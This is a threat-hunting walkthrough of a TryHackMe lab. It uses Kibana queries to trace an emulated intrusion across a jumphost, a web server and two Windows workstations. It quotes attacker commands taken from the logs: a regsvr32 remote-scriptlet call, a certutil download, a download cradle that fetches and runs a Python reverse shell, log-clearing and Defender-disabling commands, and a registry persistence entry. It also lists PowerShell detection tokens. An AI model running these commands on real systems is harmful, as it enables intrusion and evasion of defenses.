# Threat Hunting: Foothold, a MITRE ATT&CK Walkthrough

**Disclaimer**: This writeup documents a guided threat hunting exercise structured around the MITRE ATT&CK framework, as scoped by the TryHackMe room it is based on. It is not an exhaustive incident investigation. Host coverage varies by tactic (some hosts are checked for one tactic and not another) because that reflects the boundaries the room itself set, not a limitation in the analysis. Where a finding required correlating data across sections the room presents separately, this is called out explicitly as an added observation.

## Environment

The emulated network consists of five systems, monitored through the Elastic Stack:

- **JUMPHOST** (Ubuntu 20.04): bastion host managing SSH access from the external network into the internal environment.
- **WEB01** (Ubuntu 20.04): externally facing web application server.
- **WKSTN-1** (Windows 10): employee workstation, user clifford.miller.
- **WKSTN-2** (Windows 10): employee workstation, user bill.hawkins.
- **DC01** (Windows Server 2019): domain controller.

Three indices back the hunt: **filebeat-\*** (Syslog, Apache, and Auditd logs from the Linux servers), **winlogbeat-\*** (Windows Event Logs and Sysmon from the Windows hosts), and **packetbeat-\*** (network traffic across the environment).

## Lab Objective

Hunt for indicators of initial compromise and post-exploitation activity across five MITRE ATT&CK tactics: Initial Access, Execution, Defense Evasion, Persistence, and Command and Control. Each tactic is treated as an independent hunting scenario, using Kibana's Discover and Lens tooling to move from a broad behavioral hypothesis to a confirmed, correlated finding.

## Tools and Technologies

- Kibana (Discover, Lens, Visualize Library)
- Elastic Stack (filebeat, winlogbeat, packetbeat)
- KQL (Kibana Query Language)
- Sysmon (process creation, network connection, registry, and CreateRemoteThread events)
- Windows Security Event Log
- MITRE ATT&CK framework (TA0001, TA0002, TA0003, TA0005, TA0011)

---

## Initial Access (TA0001)

### Brute-Forcing via SSH on Jumphost

Brute-force activity has a distinct shape in authentication logs: a high volume of failures followed by a single success. I scoped the hunt to the jumphost's authentication events and inspected the `system.auth.ssh.event` field before committing to a query, to confirm it actually carried the values I expected.






With a table built on `source.ip` and `user.name`, I queried failed attempts:

```
host.name: jumphost AND event.category: authentication AND system.auth.ssh.event: Failed
```



Two IPs stood out immediately, 167.71.198.43 and 218.92.0.115, each responsible for over 500 failed attempts against a wide spread of usernames, a pattern consistent with credential brute-forcing rather than a single user mistyping a password. I then checked whether either IP had a corresponding success:

```
host.name: jumphost AND event.category: authentication AND system.auth.ssh.event: Accepted AND source.ip: (167.71.198.43 OR 218.92.0.115)
```



167.71.198.43 successfully authenticated as the `dev` account. This confirms the brute force succeeded and gives me my first pivot point for the rest of the hunt: this IP is now a known-bad indicator to track across every other index.

### Remote Code Execution on Web01

Web application attacks typically start with enumeration before moving to exploitation, so I built a table of ingress HTTP traffic to WEB01, keyed on `source.ip` and `http.response.status_code`:

```
host.name: web01 AND network.protocol: http AND destination.port: 80
```



A single source IP, 167.71.198.43 again, generated 6,742 requests that returned 404. A high concentration of "page not found" responses from one IP is the fingerprint of directory enumeration: the tool is guessing paths, and most guesses miss. Before committing to that read, I checked the `query` and `user_agent.original` fields directly:





The user agent confirmed it: gobuster 2.0.1 accounted for 90% of traffic. The `url.query` field also showed something the enumeration alone didn't explain: parameters like `x=id`, `x=whoami`, and `c=admin` appearing on requests to a `/gila` directory. That's not what a directory brute-forcer produces on its own, it's a sign the attacker moved from enumeration to exploitation once `/gila` was found. I isolated the 404s from this IP with the relevant fields as columns:

```
host.name: web01 AND network.protocol: http AND destination.port: 80 AND source.ip: 167.71.198.43 AND http.response.status_code: 404
```



Then I switched to the status codes that indicate a request actually landed (200, 301, 302), sorted ascending by time to read the attack chronologically:

```
host.name: web01 AND network.protocol: http AND destination.port: 80 AND source.ip: 167.71.198.43 AND http.response.status_code: (200 OR 301 OR 302)
```



The sequence is clean: the attacker discovers `/gila`, accesses it, then sends a request with a PHP payload embedded in the User-Agent header, using PHP's `system()` function against a `x` GET parameter to execute arbitrary host commands. This is a Remote Code Execution vulnerability in the Gila CMS application, and the User-Agent field was the delivery mechanism, not a legitimate client string. This is now a second confirmed compromise, independent of the SSH access to the jumphost, and it shares the same source IP.

### Phishing Links and Attachments

For the workstation side of Initial Access, I started broad, checking what processes were active across both workstations at all:

```
host.name: WKSTN-*
```



The dominant processes were powershell.exe and nslookup.exe, both worth remembering for later tactics. I drilled into the "Other" bucket to see what was hiding behind the long tail:



chrome.exe and outlook.exe both appeared, which gave me two concrete leads: a browser-delivered download, and an email attachment. I hunted file creation events (Sysmon Event ID 11) tied to chrome.exe:

```
host.name: WKSTN-* AND process.name: chrome.exe AND winlog.event_id: 11
```



Chrome generates a `.tmp` file for every download in progress by default, so those entries are noise. Filtering them out narrows the results to what actually landed on disk:

```
host.name: WKSTN-* AND process.name: chrome.exe AND winlog.event_id: 11 AND NOT file.path: *.tmp
```



Two users had downloaded files worth flagging. clifford.miller on WKSTN-1 pulled down `chrome.exe` into the Downloads folder itself, this is a masquerade, since the legitimate Chrome binary lives under Program Files, not a user's Downloads directory, and `microsoft.hta`, an HTML Application file. HTAs execute through `mshta.exe` with local system privileges and fewer of the restrictions a browser would apply, which makes them a common phishing and LOLBAS delivery mechanism. bill.hawkins on WKSTN-2 downloaded `update.exe`.

For the second phishing vector, I hunted files created by Outlook itself:

```
host.name: WKSTN-* AND process.name: OUTLOOK.EXE AND winlog.event_id: 11
```



`Update.zip` had been opened on WKSTN-2, staged in the Outlook attachment cache path (`\AppData\Local\Microsoft\Windows\INetCache\Content.Outlook\`). Because KQL doesn't allow wildcards against a quoted literal string, I queried the raw string with a wildcard instead of quoting it:

```
host.name: WKSTN-* AND *Update.zip*
```



The archive contained `update.lnk`, a shortcut file. A `.lnk` file shipped inside a `.zip` attachment is a well-worn malware delivery pattern: shortcuts aren't blocked by most mail filters the way executables are, and Windows will happily run whatever the shortcut points to the moment it's double-clicked. To find what fired next, I used View Surrounding Documents on the `update.lnk` event, filtered to WKSTN-2, with `process.executable` added as a column:




PowerShell activity follows the shortcut's execution almost immediately, which is the expected outcome of a malicious LNK, and confirms the second workstation was compromised through phishing independently of clifford.miller's chain.

---

## Execution (TA0002)

### Usage of Command-Line Tools

With three separate initial access vectors confirmed, I moved to hunting execution artifacts, starting with the two most commonly abused command-line interpreters:

```
host.name: WKSTN-* AND winlog.event_id: 1 AND process.name: (cmd.exe OR powershell.exe)
```



With `user.name`, `process.parent.command_line`, and `process.command_line` as columns, two things stood out. First, `cmd.exe` was spawned by `C:\Windows\Temp\installer.exe`, and a parent binary running out of `Temp` is itself worth treating as suspicious regardless of what it does next, since legitimate software rarely installs or executes from that path. Second, several PowerShell invocations carried `-noP` (no profile) and `-enc` (base64-encoded command block) together, a flag combination commonly used to hide the actual command from casual log review. I decode PowerShell's `-enc` payloads as UTF-16LE, not raw UTF-8, since that's the encoding PowerShell itself expects for this parameter.

An alternative and often richer view of PowerShell activity comes from Script Block Logging (Event ID 4104), which captures the interpreted script content rather than just the invocation line:

```
host.name: WKSTN-* AND winlog.event_id: 4104
```



At 44,934 hits this index is unusable as-is. The majority were repeating `Set-StrictMode` boilerplate that PowerShell itself generates and that carries no investigative value, so I excluded it by filtering the `powershell.file.script_block_text` field down to those three specific noise patterns, dropping the set to 489 hits. Noise reduction like this is only safe once you've confirmed the excluded content really is benign and repetitive, filtering blind risks losing the one event that matters.



Among the remaining events, a function named `Invoke-Empire` appears on WKSTN-1, this is the signature of the Empire C2 post-exploitation framework's PowerShell agent. Beyond this specific string, a small set of PowerShell tokens are worth treating as durable detection anchors regardless of the specific campaign: `invoke`/`invoke-expression`/`iex`, `-enc`/`-encoded`, `-noprofile`/`-nop`, `bypass`, `-c`/`-command`, `-executionpolicy`/`-ep`, `WebRequest`, and `Download`. None of these are inherently malicious on their own, administrators use several of them too, but their combination and context (parent process, execution path, encoded payload) is what separates signal from noise.

### Built-in System Tools (LOLBAS)

Beyond PowerShell and cmd, I hunted three commonly abused Living-off-the-Land Binaries: certutil, mshta, and regsvr32, capturing both process creation and network connection events, and including anything they spawned as a child:

```
host.name: WKSTN-* AND winlog.event_id: (1 OR 3) AND (process.name: (mshta.exe OR certutil.exe OR regsvr32.exe) OR process.parent.name: (mshta.exe OR certutil.exe OR regsvr32.exe))
```



All three binaries were abused, each for a distinct purpose:

- **certutil** downloaded `installer.exe` from `oneedirve.xyz` using `-urlcache -split -f`, staging the binary in `C:\Windows\Temp`, the same binary already flagged from the command-line tools hunt above.
- **regsvr32** used the Squiblydoo technique (`regsvr32 /s /n /u /i:http://www.oneedirve.xyz/321c3cf/teams.sct scrobj.dll`) to execute a remotely hosted scriptlet without ever writing the payload to disk, then spawned an encoded PowerShell stager carrying the same `-noP -sta -w 1 -enc` signature seen elsewhere on this host.
- **mshta** executed `microsoft.hta` and, checked directly against its own PID, spawned an encoded PowerShell process one second later (14:25:58, against an execution at 14:25:57), confirming this wasn't a dormant foothold but an immediate handoff into a scripted stager.

Correlating on the LOLBAS process name itself, rather than only on cmd.exe or powershell.exe, surfaces the delivery mechanism the earlier command-line hunt couldn't show on its own: two independent LOLBAS techniques (certutil download, regsvr32 remote scriptlet execution) converging on the same encoded PowerShell pattern within minutes of each other on the same host.

### Scripting and Programming Tools

The last Execution scenario covers scripting runtimes, since attackers occasionally rely on languages already present on a target rather than deploying dedicated tooling:

```
host.name: WKSTN-* AND winlog.event_id: (1 OR 3) AND (process.name: (*python* OR *php* OR *nodejs*) OR process.parent.name: (*python* OR *php* OR *nodejs*))
```



Python spawned a child `cmd.exe` process and initiated an outbound connection to 167.71.198.43:8080, the same IP already tied to both the SSH brute force and the WEB01 RCE. I pulled the parent PID of the spawned `cmd.exe` to trace what came after it:



```
host.name: WKSTN-* AND winlog.event_id: (1 OR 3) AND process.parent.pid: 1832
```



`whoami /priv`, `net users`, two separate `Clear-EventLog -LogName Security` calls, and a Windows Defender signature removal command all followed. This confirms `dev.py` is a Python-based reverse shell, giving the attacker interactive command execution through `cmd.exe`, and it's the same shell responsible for the defense evasion actions covered next. A note on methodology here: correlating by raw PID is only reliable within a tight time window, Windows recycles PIDs once a process exits, so the same number can legitimately belong to two unrelated processes an hour apart. Where the gap is wider, `process.entity_id` (which incorporates the process's start time) is the safer field to pivot on.

---

## Defense Evasion (TA0005)

### Disabling Security Software

I hunted for the two command patterns most commonly used to blind Windows Defender:

```
host.name: WKSTN-* AND (*DisableRealtimeMonitoring* OR *RemoveDefinitions*)
```



Both indicators traced back to WKSTN-1, and both correlate to activity already flagged elsewhere in this investigation:



`Set-MpPreference -DisableRealtimeMonitoring $true` was executed under the `installer.exe` process chain, and `MpCmdRun.exe -RemoveDefinitions -All` was executed by the `cmd.exe` process (PID 1832) spawned by the Python reverse shell.



Two independent execution chains on the same host both disabling the same security control is a strong indicator of a coordinated actor working through multiple footholds rather than two unrelated events.

### Log Deletion Attempts

Event ID 1102 is generated any time Windows Event Logs are cleared, and there is no legitimate operational reason for this to happen outside planned log rotation:

```
host.name: WKSTN-* AND winlog.event_id: 1102
```



WKSTN-1's Security log was cleared. Using View Surrounding Documents with `process.name` and `process.command_line` added, I confirmed the exact command:



```
powershell Clear-EventLog -LogName Security
```

The surrounding events show this same command executed around the same window on both WKSTN-1 and WKSTN-2, reinforcing that this is coordinated activity rather than an isolated incident on a single host.

### Execution through Process Injection

Sysmon's Event ID 8 (CreateRemoteThread) flags when one process creates a thread inside another, a common technique for executing shellcode while masquerading as a legitimate process:

```
host.name: WKSTN-* AND winlog.event_id: 8
```



With `process.executable`, `winlog.event_data.SourceUser`, and `winlog.event_data.TargetImage` as columns, most of the 24 hits are explainable SYSTEM-level activity (DWM injecting into csrss.exe, SYSTEM into svchost.exe), which is normal Windows behavior and not worth chasing further. One entry breaks that pattern: `C:\Users\clifford.miller\Downloads\chrome.exe`, the same masquerading binary flagged during the phishing hunt, injecting a thread into `explorer.exe` under clifford.miller's own user context rather than SYSTEM. explorer.exe is a frequent injection target precisely because it's always running and rarely draws scrutiny, and this is the only entry in the result set tied to a known-malicious binary and a standard user account instead of a system service.

---

## Persistence (TA0003)

### Scheduled Task Creation

Scheduled task creation is logged under Event ID 4698 when audit policy is configured for it, and can otherwise be caught through the command strings used to create tasks:

```
host.name: WKSTN-* AND (winlog.event_id: 4698 OR (*schtasks* OR *Register-ScheduledTask*))
```



Most of the results (OneDrive Reporting, OneDrive Standalone Update) are benign, Microsoft-signed tasks. One entry does not fit that pattern: a task named "Windows Update" on WKSTN-2, running a PowerShell command every minute that downloads and executes content from `oneedirve.xyz`. The domain alone ties this directly to the C2 infrastructure already established elsewhere in the hunt, confirming this task as attacker-installed persistence rather than a legitimate update mechanism.

### Registry Key Modification

Registry-based persistence is one of the noisiest categories to hunt, since the registry is written to constantly by legitimate processes. An unfiltered pull of Sysmon's registry event (Event ID 13) against the Sysmon channel confirms this:

```
host.name: WKSTN-* AND winlog.event_id: 13 AND winlog.channel: Microsoft-Windows-Sysmon/Operational
```



1,481 hits is not a workable starting point. Narrowing to the specific registry paths threat actors most commonly abuse for auto-start persistence (`CurrentVersion\Run`, `CurrentVersion\Explorer\User`, `CurrentVersion\Explorer\Shell`) cuts this dramatically:

```
host.name: WKSTN-* AND winlog.event_id: 13 AND winlog.channel: Microsoft-Windows-Sysmon/Operational AND registry.path: (*CurrentVersion\\Run* OR *CurrentVersion\\Explorer\\User* OR *CurrentVersion\\Explorer\\Shell*)
```



One entry stands out from the reduced set:

- **Registry Path**: `HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnceEx\0001\Depend\1`
- **Registry Data**: `C:\Windows\Temp\installer.exe`

This registers the already-identified malicious binary to execute at system startup. As an alternative angle on the same question, filtering by the processes most commonly used to write these keys directly (reg.exe, powershell.exe) surfaces the same finding faster:

```
host.name: WKSTN-* AND winlog.event_id: 13 AND winlog.channel: Microsoft-Windows-Sysmon/Operational AND process.name: (reg.exe OR powershell.exe)
```



This method won't catch a binary that touches the registry directly through its own API calls rather than shelling out to reg.exe or PowerShell, so it's a faster complement to the broader path-based query above, not a replacement for it. Pulling the parent process and command line for this event confirms the exact write:



```
cmd /c "REG ADD HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnceEx\0001\Depend /v 1 /d \"C:\Windows\Temp\installer.exe\""
```

---

## Command and Control (TA0011)

### Command and Control over DNS

DNS-based C2 typically shows up as an unusually high count of unique subdomains under a single registered domain, since the malware encodes its communication in the subdomain label itself. I built a Lens table on `dns.question.registered_domain` and `host.name`, with a unique count of `dns.question.subdomain`, filtering out reverse lookups:

```
network.protocol: dns AND NOT dns.question.name: *arpa
```



`golge.xyz` stood out immediately: 2,191 unique subdomains queried from WKSTN-1, against single digits for every other domain in the table. Pivoting into Discover on this specific domain and host:

```
network.protocol: dns AND NOT dns.question.name: *arpa AND dns.question.registered_domain: golge.xyz AND host.name: WKSTN-1
```



The subdomains are hexadecimal strings, the queries span CNAME, TXT, and MX record types (legitimate resolution rarely needs this variety against a single domain in a short window), and the requests go directly to 167.71.198.43 as the destination, meaning the workstation is querying an attacker-controlled server directly rather than through its configured DNS infrastructure. This combination, encoded subdomains, mixed query types, and a bypassed resolver, is the behavioral signature of DNS tunneling, independent of the specific domain name involved. Correlating this network activity to the responsible process on the host:

```
host.name: WKSTN-1* AND destination.ip: 167.71.198.43 AND destination.port: 53
```



`nslookup.exe`, running under clifford.miller, generated all of it. View Surrounding Documents on this activity surfaced the parent PowerShell command:



The script was pulled directly from a public GitHub repository (`lukebaggett/dnscat2-powershell`) and invoked with parameters pointing `-Domain` at `golge.xyz` and `-DNSServer` at `167.71.198.43`. dnscat2 is a well-documented DNS tunneling tool, and its presence here confirms this channel as an active C2 mechanism, not incidental traffic. Beyond the specific tool, unusually large DNS packet sizes are worth treating as a general anomaly indicator for this technique, since legitimate DNS queries are short and tunneling tools inflate them to carry data.

### Command and Control over Cloud Applications

Attackers using known cloud services for C2 rely on blending into traffic that already looks legitimate, so the same table used for the DNS hunt, sorted ascending by count instead of by unique subdomains, surfaces low-frequency but unusual destinations that would otherwise be buried:


`discord.gg` appeared against WKSTN-1, a domain with no legitimate business reason to be contacted from an employee workstation in this environment. Pivoting to winlogbeat to find the responsible process:

```
host.name: WKSTN-1* AND *discord.gg*
```



`installer.exe`, again the same binary already flagged multiple times, was responsible for three of the four connections. Enumerating everything this process spawned:

```
host.name: WKSTN-1* AND winlog.event_id: 1 AND process.parent.executable: "C:\\Windows\\Temp\\installer.exe"
```



This single query ties together nearly every finding from this investigation into one process tree: `whoami /priv` and `net users` for reconnaissance, the `REG ADD` command establishing RunOnceEx persistence, `Get-MpPreference` followed by `Set-MpPreference -DisableRealtimeMonitoring $true` for defense evasion, and a PowerShell download cradle (`iwr http://www.oneedirve.xyz/321c3cf/dev.py -outfile C:\Windows\Tasks\dev.py; python3 C:\Windows\Tasks\dev.py`) that stages and launches the Python reverse shell covered earlier. `installer.exe` is the operational hub of this intrusion on WKSTN-1, with Discord serving as one of its outbound C2 channels.

### Command and Control over Encrypted HTTP Traffic

The last C2 pattern to check is a self-hosted, custom encrypted channel over standard HTTP. I built a table on `host.name`, `destination.domain`, and `http.request.method` against egress traffic:

```
network.protocol: http AND network.direction: egress
```



`cdn.golge.xyz` generated a high volume of traffic from both WKSTN-1 and WKSTN-2, well above the legitimate Microsoft and Windows Update background noise also present in this table. Narrowing to that domain and focusing on `host.name` and `query`:

```
host.name: WKSTN-* AND network.protocol: http AND network.direction: egress AND destination.domain: cdn.golge.xyz
```



Both workstations request the same three endpoints (`/admin/get.php`, `/login/process.php`, `/news.php`), mostly GET with a handful of POST calls from WKSTN-2. Identical endpoints across two independently compromised hosts point to a shared malware family or shared C2 infrastructure rather than two attackers coincidentally choosing the same paths. Correlating this traffic to processes:

```
host.name: WKSTN-* AND *cdn.golge.xyz*
```



`powershell.exe` under both compromised user accounts, and `update.exe` (the file bill.hawkins originally downloaded via phishing) all correlate to this channel, confirming the encrypted HTTP C2 as a second, parallel channel to the DNS and Discord channels already established on WKSTN-1.

---

## Analyst's Note: Cross-Host Timeline Correlation

The room's own structure walks each host through each tactic in isolation, which is the right approach for teaching the individual techniques but obscures one relationship that only becomes visible by comparing actual timestamps across sections rather than reading them tactic by tactic.

The WKSTN-1 phishing chain begins at 14:25:54, when `microsoft.hta` lands in clifford.miller's Downloads folder, followed three seconds later by mshta.exe executing it, then PowerShell within a second of that. The WEB01 RCE traffic, by contrast, is timestamped roughly two hours after this chain starts. Both intrusions share the same IP, 167.71.198.43, but that IP appears in three distinct roles across the investigation: as the source of the SSH brute force against the jumphost, as the source of the web RCE traffic against WEB01, and as the C2 destination for the Python reverse shell on WKSTN-1.

Read together, this doesn't describe one compromise pivoting into the next. It describes the same attacker infrastructure being used to run two independent entry attempts, a phishing-based workstation compromise and a web application exploit, in parallel rather than in sequence. Nothing in either individual tactic section makes that distinction visible, since each is scoped to a single host and a single technique. It only surfaces once the timestamps are cross-referenced against each other directly.

---

## Implications for a SOC Analyst

This environment demonstrates why single-tactic detection is insufficient on its own. Each individual finding here, an encoded PowerShell flag, one unusual scheduled task, a handful of hex DNS subdomains, would be a plausible false positive in isolation. What confirms malicious intent is correlation: the same binary (`installer.exe`) surfacing across Execution, Defense Evasion, Persistence, and two separate C2 channels; the same IP surfacing as both a brute-force source and a C2 destination; the same defense evasion commands executed by two entirely separate footholds on the same host.

A few points worth carrying into production detection work:

- **Anchor on technique signatures, not artifacts.** The `-noP -sta -w 1 -enc` PowerShell flag combination and the Squiblydoo `regsvr32 /i:URL scrobj.dll` pattern are durable across campaigns. Specific filenames like `installer.exe` or domains like `golge.xyz` are not, and will change the next time this actor operates.
- **Noise reduction requires proof of benignity, not convenience.** Filtering 44,934 Script Block Logging events down to 489 only works because the excluded content (`Set-StrictMode` boilerplate) was independently confirmed as repetitive and non-actionable. Filtering without that confirmation risks discarding the one event that matters.
- **PID-based correlation has a shelf life.** Windows recycles process IDs once a process exits. Correlating on `process.parent.pid` is reliable within a tight window but should be backed by `process.parent.name` or `process.entity_id` whenever the time gap between parent and child extends beyond a few minutes.
- **Cross-reference timestamps across tactics, not just within one.** The parallel WEB01/WKSTN-1 entry vectors were only visible by treating the investigation as one timeline instead of five separate ones.

---